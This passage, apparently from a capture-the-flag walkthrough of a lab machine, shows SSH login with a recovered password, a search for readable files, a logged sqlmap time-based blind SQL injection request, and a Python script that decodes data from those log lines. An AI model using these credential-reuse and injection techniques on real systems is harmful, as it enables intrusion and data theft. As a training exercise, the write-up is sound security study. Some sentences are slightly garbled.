 ##### Lateral Movement 

We have previously obtained more `creds`, when searching for other valid one's for `ssh` we find those of the `administrator` user, we obtain another shell on the machine
```bash
    ❯ sshpass -p ihatepasta ssh administrator@10.13.37.14
    administrator@erlenmeyer:~$ id
    uid=1000(administrator) gid=1000(administrator) groups=1000(administrator)  
    administrator@erlenmeyer:~$ hostname -I
    10.13.37.14 172.17.0.1 172.22.0.1
    administrator@erlenmeyer:~$
``` 

  

Among the files that we own we find the Apache `access.log` file, which a normal user should not generally be able to read.
```bash
    administrator@erlenmeyer:~$ find / -user administrator 2>/dev/null | grep -vE "/proc|/sys|/home|/run"  
    /dev/pts/0
    /var/mail/administrator
    /var/log/apache2/access.log
    administrator@erlenmeyer:~$
 ```   

  

In it we find several `logs`facts `sqlmap`about the archive`/update.php`
```bash
    administrator@erlenmeyer:~$ cat /var/log/apache2/access.log | grep sqlmap | head -n1
    4969 192.168.86.1 - - [20/Jul/2021:00:00:00 -0700] "GET /update.php?keyword=python%27%20WHERE%201388%3D1388%20AND%20%28SELECT%207036%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28table_name%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x6d7973716c%20LIMIT%2028%2C1%29%2C3%2C1%29%29%3E110%2C0%2C3%29%29%29%29%29pqBK%29--%20EZas&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"  
    administrator@erlenmeyer:~$
 ```   

  

We notice a pattern in certain lines, such as `))>96`, where `))` is followed by some characters and a decimal number. Our approach is to extract these lines, `urldecode` them, and convert each decimal value into readable `text` using `chr()`. This could reveal hidden data or encoded messages within the logs
```python
    #!/usr/bin/python3
    import re, urllib.parse
    
    with open("/var/log/apache2/access.log") as file:  
        for line in file:
            line = urllib.parse.unquote(line)
            if not "update.php" in line:
                continue
            regex = re.search("\)\)!=(\d+)", line)
            if regex:
                decimal = int(regex.group(1))
                print(chr(decimal), end="")
    
```
  